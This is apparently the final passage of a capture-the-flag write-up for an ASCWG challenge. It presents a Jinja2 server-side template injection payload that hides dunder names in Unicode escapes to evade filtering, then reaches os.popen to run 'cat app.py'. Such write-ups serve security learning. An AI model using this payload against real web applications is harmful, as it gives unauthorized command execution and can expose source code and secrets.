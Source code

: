 ![Untitled](/assets/images/ASCWG-Fathers-Light/Untitled%209.png)

final payload:

```bash
{{''['\U0000005F\U0000005F\U00000063\U0000006c\U00000061\U00000073\U00000073\U0000005F\U0000005F']['\U0000005f\U0000005f\U0000006d\U00000072\U0000006f\U0000005f\U0000005f'][1]['\U0000005f\U0000005f\U00000073\U00000075\U00000062\U00000063\U0000006c\U00000061\U00000073\U00000073\U00000065\U00000073\U0000005f\U0000005f']()[207]['\U0000005f\U0000005f\U00000069\U0000006e\U00000069\U00000074\U0000005f\U0000005f']['\U0000005f\U0000005f\U00000067\U0000006c\U0000006f\U00000062\U00000061\U0000006c\U00000073\U0000005f\U0000005f']['sys']['modules']['os']['\U00000070\U0000006f\U00000070\U00000065\U0000006e']('cat+app.py')['\U00000072\U00000065\U00000061\U00000064']()}}
```

---

Thanks for reading, feel free to DM [me](https://www.linkedin.com/in/juba0x00), Have a great day 🌹